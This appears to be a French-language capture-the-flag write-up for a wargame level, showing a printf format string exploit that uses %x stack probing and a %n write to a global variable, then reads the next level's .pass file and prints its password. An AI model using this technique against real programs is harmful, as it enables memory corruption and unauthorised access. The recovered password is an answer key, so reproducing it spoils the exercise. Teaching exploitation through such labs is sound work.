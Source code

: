  ▄▄▄     ▄▄▄▄▄▄▄ ▄▄   ▄▄ ▄▄▄▄▄▄▄ ▄▄▄        ▄▄▄▄▄▄▄ 
█   █   █       █  █ █  █       █   █      █       █
█   █   █    ▄▄▄█  █▄█  █    ▄▄▄█   █      █▄▄▄    █
█   █   █   █▄▄▄█       █   █▄▄▄█   █       ▄▄▄█   █
█   █▄▄▄█    ▄▄▄█       █    ▄▄▄█   █▄▄▄   █▄▄▄    █
█       █   █▄▄▄ █     ██   █▄▄▄█       █   ▄▄▄█   █
█▄▄▄▄▄▄▄█▄▄▄▄▄▄▄█ █▄▄▄█ █▄▄▄▄▄▄▄█▄▄▄▄▄▄▄█  █▄▄▄▄▄▄▄█

- [Tuto](https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b)
- Ici la vulnerabilité est que le format de printf peut etre modifier avec gets
```
$> ./level3
%d
512
```
- On regarde ensuite qu'elle est l'addresse de la fonction contenant 
<pre>
$> nm level3
<strong>0804988c</strong> B m
</pre>
- On regarde a combien de %x il faut pour trouver l'adresse print
<pre>
$> (python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*5)") | ./level3
AAAA200 b7fd1ac0 b7ff37d0 <strong>41414141 804988c</strong>
</pre>
- Il suffit d'utiliser `%n` qui permet d'ecrire le nombre de caractere d'avant dans la variable (ici 0x0804988c) 
```
(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*25 + '%n')"; cat) | ./level3
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
